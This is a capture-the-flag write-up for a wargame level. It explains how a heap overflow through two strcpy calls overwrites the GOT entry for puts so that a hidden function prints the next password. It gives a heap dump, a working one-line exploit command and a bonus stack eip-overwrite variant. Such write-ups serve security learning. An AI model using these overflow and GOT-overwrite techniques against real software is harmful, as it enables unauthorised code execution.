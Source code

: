 # level7

We continue the heap overflow saga. 
So we have a binary file (as always) with several functions : especially `main` and `m` functions.
Our program take two arguments which are copied with `strcpy` function, in two strings that are malloc'd at the beginning of `main` function. 

Then, we can see a call to fopen, which takes path of the level8 pass file. Then, the content of the file is given to the global variable `c`. 
So, we would like to print the content of `c` ! Luckily, `m` function is here. Indeed, we can see a call to printf in `m` function, which prints the content of `c` and the return of `time` function.  

We need to find a way to call `m` function in order to print our pass; and this way is the call to `puts` (thank you)!

The thing we have to do, is to write `m` address: `0x080484f4` in place of `puts` adress in the GOT which is: `0x8049928`. 
To overflow, we use calls to `strcpy`, we use the first one to replace the address of the second `strcpy` with `puts` address and we give the second one the address of `m`. 

This is a dump of the heap with the arguments `AAAA` (41414141) and `BBBB` (42424242).
```
x/16xw 0x804a008
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
0x804a018:	0x41414141	0x00000000	0x00000000	0x00000011
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
0x804a038:	0x42424242	0x00000000	0x00000000	0x00020fc1
```

We can see that there are 20 bytes between our first string and the second. So we need to write 20 characters before typing the address of `puts` in the GOT. And just have to give the address of `m` as second argument. 
And here we are :
```bash 
./level7 $(python -c 'print "A" * 20 + "\x08\x04\x99\x28"[::-1] + " " + "\x08\x04\x84\xf4"[::-1]')
```

### Bonus

We managed to make it work by overwriting `eip` in the stack, but since the stack size is variable notably between `gdb` and direct calls, it can be hit or miss:

```bash
./level7 $(python -c 'print "A" * 20 + "\xbf\xff\xf7\x3c"[::-1] + " " + "\x08\x04\x84\xf4"[::-1] + "A"')
```
